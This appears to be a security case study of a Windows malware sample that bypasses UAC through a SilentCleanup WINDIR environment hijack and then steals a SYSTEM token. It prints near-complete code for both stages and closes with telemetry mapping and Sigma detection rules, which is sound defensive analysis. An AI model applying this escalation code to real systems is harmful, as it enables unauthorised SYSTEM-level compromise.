

# UAC Bypass via `SilentCleanup` Environment Hijack: A Case Study of `pwgate.c`



* * *

## Abstract

`pwgate.c` is a two-stage Windows privilege-escalation sample. It abuses the built-in `SilentCleanup` scheduled task to go from medium to high integrity (UAC bypass), then steals a SYSTEM token from `winlogon.exe` to reach `NT AUTHORITY\SYSTEM`. The sample layers cfapi and oplock tricks that look like anti-detection but don't touch the events that actually catch it. This paper decomposes the chain, maps its telemetry, and explains what is load-bearing.

* * *

## 1\. The exploit

`\Microsoft\Windows\DiskCleanup\SilentCleanup` runs as `Users` with `RunLevel=Highest`. Its action is `%windir%\System32\cleanmgr.exe`, and `%windir%` is read from the **invoking user's** environment block, not the machine's. Write `HKCU\Environment\WINDIR = <your dir>`, trigger the task, and Task Scheduler launches **your** `cleanmgr.exe` elevated.

That is the whole bypass. Known since 2019, still unpatched, treated as by-design.

The primitive in the sample:

c

```
static BOOL SetUserWindirEnv(_In_opt_ LPCWSTR value) {
    HKEY hKey = NULL;
    LONG r = RegOpenKeyExW(HKEY_CURRENT_USER, L"Environment", 0, KEY_SET_VALUE, &hKey);
    // ...
    r = RegSetValueExW(hKey, L"WINDIR", 0, REG_SZ,
                       (const BYTE *)value, (DWORD)((wcslen(value) + 1) * sizeof(WCHAR)));
    // ...
    SendMessageTimeoutW(HWND_BROADCAST, WM_SETTINGCHANGE, 0,
                        (LPARAM)L"Environment", SMTO_ABORTIFHUNG, 1000, NULL);
}
```

The `WM_SETTINGCHANGE` broadcast is what makes `userenv.dll` re-read the block inside `svchost.exe`'s session without a logoff. That is why the technique works on a live session.

* * *

## 2\. Sample structure

`wmain` has three entry modes, selected by leaf name and argv:

c

```
if (_wcsicmp(leaf, L"cleanmgr.exe") == 0)         // elevated re-entry
    return Stage2(NULL);
if (argc >= 2 && _wcsicmp(argv[1], L"stage2") == 0)
    return Stage2(argc >= 3 ? argv[2] : NULL);     // manual re-entry
// otherwise: Stage1
```

### Stage 1 — env hijack and dispatch

The launch sequence in `wmain`:

c

```
swprintf_s(fakeSys32, MAX_PATH, L"%ls\\system32", workDir);
CreateDirectoryW(fakeSys32, NULL);
swprintf_s(fakeCleanmgr, MAX_PATH, L"%ls\\cleanmgr.exe", fakeSys32);
CopyFileW(selfPath, fakeCleanmgr, FALSE);
```

Self-copy into a nested `system32` directory, so the poisoned `WINDIR\System32\cleanmgr.exe` resolves to the attacker's copy. Then two `WINDIR` variants are tried:

c

```
wcscpy_s(variant[0], MAX_PATH + 4, workDir);
swprintf_s(variant[1], MAX_PATH + 4, L"\"%ls\"", workDir);
for (int v = 0; v < 2 && !spawned; v++) {
    SetUserWindirEnv(variant[v]);
    RunTaskWithTimeout();
    // poll for marker up to 15s
    SetUserWindirEnv(NULL);
}
```

Two variants because Task Scheduler versions differ in whether they quote `WINDIR` before path interpolation. The unquoted form is the common working case; the quoted form is a defensive fallback.

`RunTaskWithTimeout` dispatches the task on a worker thread with a 15 s cap:

c

```
hr = ITaskService_GetFolder(pService, bFolder, &pFolder);
hr = ITaskFolder_GetTask(pFolder, bName, &pTask);
hr = IRegisteredTask_RunEx(pTask, empty, TASK_RUN_IGNORE_CONSTRAINTS,
                           0, NULL, &pRunningTask);
```

`TASK_RUN_IGNORE_CONSTRAINTS` is required because `SilentCleanup` has battery/idle constraints. `RunEx` blocks on non-interactive sessions, hence the thread and timeout — the caller proceeds regardless.

Completion signal is a file:

c

```
static void WriteMarker(void) {
    HANDLE h = CreateFileW(g_markerPath, GENERIC_WRITE, 0, NULL,
                           CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
    if (h != INVALID_HANDLE_VALUE) CloseHandle(h);
}
```

Stage 1 polls `MarkerExists()` every 500 ms until timeout. The marker is the only inter-process signal because the task-spawned child runs in a different session/token context, so named handles are not shared.

### Stage 2 — token theft

Once the leaf name is `cleanmgr.exe`, the sample is already elevated. It writes the marker first:

c

```
static int Stage2(const wchar_t *cmdOverride) {
    WriteMarker();
    EnablePrivilege(SE_DEBUG_NAME);
    EnablePrivilege(SE_IMPERSONATE_NAME);
```

Then the `CollectSystem` ranking — spawnable first, then integrity descending, then pid:

c

```
if (wcsstr(f.user, L"NT AUTHORITY\\SYSTEM") || f.integrity >= SECURITY_MANDATORY_SYSTEM_RID) {
    // append to g_found
}
qsort(g_found, g_foundCount, sizeof(Found), CompareFound);
```

The filter uses `NT AUTHORITY\SYSTEM` in the resolved user string, or integrity RID ≥ `SYSTEM_RID`. Sort puts `spawnable=TRUE` candidates ahead of denied ones, then highest integrity, then lowest pid.

Token theft is the standard three-call sequence:

c

```
HANDLE proc = OpenProcess(PROCESS_QUERY_LIMITED_INFORMATION, FALSE, pid);
OpenProcessToken(proc, TOKEN_DUPLICATE | TOKEN_QUERY | TOKEN_ASSIGN_PRIMARY, &hToken);
DuplicateTokenEx(hToken, TOKEN_ALL_ACCESS, &sa, SecurityImpersonation, TokenPrimary, &hDup);
```

`TOKEN_ASSIGN_PRIMARY` is the flag that matters — without it `DuplicateTokenEx` to `TokenPrimary` fails. `SecurityImpersonation` is the impersonation level required to make the token usable for `CreateProcessWithTokenW`.

Spawn:

c

```
BOOL ok = CreateProcessWithTokenW(hToken, 0, NULL, cmdline,
                                  CREATE_NEW_CONSOLE, NULL, NULL, &si, &pi);
```

`si.lpDesktop = L"winsta0\\default"` — required, otherwise the child runs on a non-interactive window station and is invisible. Default `cmdline` is `C:\Windows\System32\conhost.exe`, chosen as a benign-looking SYSTEM child.

The target selection lands on `winlogon.exe` in practice. `lsass.exe` is PPL and `OpenProcessToken` fails with `ERROR_ACCESS_DENIED`. `smss.exe` (pid 4) is skipped explicitly:

c

```
if (pe.th32ProcessID == 0 || pe.th32ProcessID == 4) continue;
```

* * *

## 3\. Anti-detection layer — does it work?

The sample's cfapi blind spot (`StartDefenderBlind`) registers `%TEMP%\blind_spot` with three 1 MiB placeholders and a `FETCH_DATA` callback that sleeps 500 ms:

c

```
VOID CALLBACK FetchDataWedge(CONST CF_CALLBACK_INFO *Info, CONST CF_CALLBACK_PARAMETERS *Params) {
    Sleep(500);
    // CfExecute STATUS_SUCCESS
}
```

The theory: Defender blocks on hydration and stalls. In practice, the target of this chain is the stage-1 `CopyFileW` into `system32\cleanmgr.exe`, which happens before any cfapi state exists. The cfapi registration is visible to `fltmc` and to Sysmon's `FileCreate` on `blind_spot` — a detection, not a blind spot.

The oplock write (`DropPayloadBlindly`) requests `FSCTL_REQUEST_OPLOCK` then writes 32 bytes of `DE AD BE EF` through a duplicated handle. It would matter if the payload were subsequently executed; it isn't — the file is deleted in `Stage2`. The only observable is a `FileCreate` + `FileWrite` on a temp file with a hard-coded marker.

The `%TEMP%\gotosystem_v3.log` log is the sample's largest forensic liability. Every step is written unbuffered:

c

```
g_log = _wfopen(g_logPath, L"a");
```

A `%TEMP%` triage for files written by SYSTEM yields the full narrative — task dispatch, token target, spawn pid, exit code. The marker file's *deletion* is itself anomalous: the initial `CreateFileW` by a SYSTEM process emits a Sysmon EID 11 regardless.

* * *

## 4\. Telemetry map

★ = load-bearing, not suppressed by anything in the sample.

| Source | Event | Fields |
| --- | --- | --- |
| Sysmon | EID 13 | ★ `HKCU\Environment\WINDIR` written |
| Sysmon | EID 1 | ★ `svchost.exe` → `*\system32\cleanmgr.exe`, `User=SYSTEM`, `IntegrityLevel=System` |
| Sysmon | EID 1 | `conhost.exe` as SYSTEM with non-SYSTEM parent |
| Sysmon | EID 11 | `%TEMP%\gotosystem_stage2.marker`, `stage2_blind.bin`, `gotosystem_v3.log` |
| Security | 4688 | `cleanmgr.exe`, creator=`svchost.exe`, `TokenElevationType=Full` |
| Security | 4672 | `SeDebugPrivilege` assigned to SYSTEM |

Two ★ events survive every obfuscation. The rest are additional evidence.

* * *

## 5\. Detection

**Registry — the technique itself:**

yaml

```
title: SilentCleanup UAC Bypass via HKCU Environment WINDIR
logsource: { product: windows, category: registry_set }
detection:
  key:
    TargetObject|endswith: '\Environment\WINDIR'
    TargetObject|startswith: 'HKCU\'
  val:
    Details|re: '^(?!C:\\Windows$).+'
  condition: key and val
level: high
```

**Process creation — the signature:**

yaml

```
title: SilentCleanup Spawned From User-Controlled WINDIR
logsource: { product: windows, category: process_creation }
detection:
  parent:  { ParentImage|endswith: '\svchost.exe' }
  child:   { Image|endswith: '\system32\cleanmgr.exe' }
  user:    { User|endswith: '\SYSTEM', IntegrityLevel: System }
  filter:  { Image|startswith: 'C:\Windows\System32\' }
  condition: parent and child and user and not filter
level: critical
```

Both are low-noise and high-fidelity. Neither is suppressed by cfapi, oplock, or the marker file.

* * *

## 6\. Conclusion

`pwgate.c` is a demonstrator. The load-bearing component is the `HKCU\Environment\WINDIR` hijack of `SilentCleanup` — a by-design UAC bypass on Windows 11. The token theft stage is redundant given the bypass's own elevation level: a High-IL process with `SeDebugPrivilege` can open `winlogon.exe` directly without the Task Scheduler round-trip. The cfapi and oplock primitives contribute nothing against the two telemetry events that sink the chain. Detection is trivial and stable: alert on `WINDIR` writes and on `cleanmgr.exe` under SYSTEM with a path outside `C:\Windows\System32`.
